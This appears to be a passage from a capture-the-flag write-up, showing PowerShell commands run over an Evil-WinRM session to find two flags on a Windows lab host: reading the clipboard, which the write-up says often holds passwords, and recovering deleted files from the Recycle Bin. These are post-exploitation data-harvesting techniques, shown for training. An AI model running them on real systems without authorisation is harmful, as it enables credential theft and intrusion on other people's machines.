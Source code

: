 ### FLAG 24: Clipboard Content

**Location**: Current clipboard  
**Difficulty**: Easy

```powershell
# Get current clipboard content
*Evil-WinRM* PS C:\> Get-Clipboard
FLAG{K**********8}

# Alternative method
*Evil-WinRM* PS C:\> Add-Type -AssemblyName System.Windows.Forms
*Evil-WinRM* PS C:\> [System.Windows.Forms.Clipboard]::GetText()
FLAG{K**********8}
```

**🎯 FLAG 24 FOUND**: FLAG{K**********8} - Clipboard content

**Why Clipboard Matters**:
- Users copy passwords
- Contains recent activity
- Persists across applications
- Often forgotten by users

### FLAG 25: Recycle Bin

**Location**: Deleted file  
**Difficulty**: Medium

```powershell
# Method 1: Direct Recycle Bin access
*Evil-WinRM* PS C:\> $recycleBin = (New-Object -ComObject Shell.Application).NameSpace(10)
*Evil-WinRM* PS C:\> $recycleBin.Items() | ForEach-Object { 
    Write-Host "Deleted File: $($_.Name)"
    if($_.Name -like "*flag*") {
        Write-Host "Found flag file!" -ForegroundColor Green
    }
}

Deleted File: deleted_flag.txt
Found flag file!
Deleted File: old_passwords.xlsx
Deleted File: temp.doc

# Method 2: Direct filesystem access
*Evil-WinRM* PS C:\> Get-ChildItem 'C:\$Recycle.Bin' -Recurse -Force | Where-Object {$_.Name -like "*flag*"}

    Directory: C:\$Recycle.Bin\S-1-5-21-xxx-xxx-xxx-1001

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:00 AM             22 $RABC123.txt

*Evil-WinRM* PS C:\> Get-Content 'C:\$Recycle.Bin\S-1-5-21-xxx-xxx-xxx-1001\$RABC123.txt'
FLAG{M***********9}
```
